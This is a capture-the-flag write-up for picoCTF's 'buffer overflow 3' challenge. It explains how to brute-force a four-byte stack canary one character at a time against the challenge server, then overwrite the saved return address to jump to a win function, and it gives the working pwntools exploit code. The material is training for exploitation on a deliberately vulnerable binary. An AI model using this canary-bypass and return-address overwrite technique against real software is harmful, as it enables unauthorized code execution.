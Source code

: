 # buffer overflow 3

**Problem Part**

![Alt text](images/problem.png)

The problem give us 3 thing.

1. Binary file
2. Source
3. Server

First, I tried to connect to the server and observe what does it do.

![Alt text](images/program.png)

The server ask the size of input and take input equal to that size.

I think I can use this input to overflow the buffer. So let's dive into the source code file.

**Source Code Part**

The source code have 3 main interesting function which are

1. win
![Alt text](images/win.png)
This function will be call to print the flag so, we might need to overflow the buffer and control the EIP to point to this function.

2. vuln
![Alt text](images/vuln.png)
This is the main program where the user interact with.

You can see that the program check that the canary is changed or not. If the value of canary is changed, it will not run.

So if we want to overflow the buffer and control EIP, we need to find a way to obtain the value canary.

3. read_canary
![Alt text](images/canary.png)
This function is use to get the canary stored in the directory.


After we observe the source code. Let's find a way to overflow the buffer.

**Testing on the local machine**

I create the file "canary.txt" with text "1234" as canary which is necessary to run the program and try to gdb it.

![Alt text](images/bufsize.png)
![Alt text](images/stack1.png)

From the source code. We have buf with size 64 and canary with length 4.

![Alt text](images/stack.png)

So, the stack might be something like this.

![Alt text](images/gdb2.png)

Then, to overflow, I created the payload with "a"*64 + "1234" + pattern

"a" * 64 is use to fill the variable buf

"1234" is the canary I create

pattern is the pattern text that we will use to find the offset of the EIP register.

![Alt text](images/gdb3.png)

And Boom! We got the offset of EIP register. So now we just need to overflow EIP

![Alt text](images/gdb1.png)

By using the gdb we can get the address of win function which is at 0x08049336

![Alt text](images/localtest.png)

I try to overflow it on the local machine, and it works.

So let's move to the one on the server.

**Find the canary of the server and obtaining the flag**

```python
from pwn import *
import string

offset1 = b"a" * 64
canary = b""
offset2 = b"a" * 16
eip = p32(0x08049336)
```

This is all varible we obtain on the local machine.

The canary of the server is secret, so we need to figure it out by bruteforce it.

Let's go back to the source code first

![Alt text](images/can_check.png)

We know that if the canary is not matched, the program will print **Canary Value Corrupt!** and if the canary is matched, it will print **Ok ... Now Where's the Flag**

And we also know that, the program will ask the size of input before taking the input.

So, we can use this to find the canary letter-by-letter.

```python
# find canary
for i in range(1, 5):
    for c in string.printable:
        r = remote("saturn.picoctf.net", 58405)
        r.recvuntil('>')
        r.sendline(str(64+i).encode()) # size the we want to input
        r.recvuntil('>')
        r.sendline(offset1 + canary + c.encode()) # try to add 1 more character
        output = r.recvall().decode()
        if 'Flag' in output: # if the char c is corret canary
            canary += c.encode()
            break
    print(canary)
```

I do the loop for 4 times to find the canary in each place.

We try to bruteforce all character that is possible of the canary by letter and trigger the correct canary by observing the output of the server.

Then after we got the canary, just craft the payload and obtain the flag.

```python
# send the payload and obtain the flag
r = remote("saturn.picoctf.net", 58405)
r.recvuntil('>')
r.sendline(str(64+4+16+4).encode())
r.recvuntil('>')
r.sendline(offset1+canary+offset2+eip)
r.interactive()
```

![Alt text](images/done.png)

For full code [solve.py](solve.py)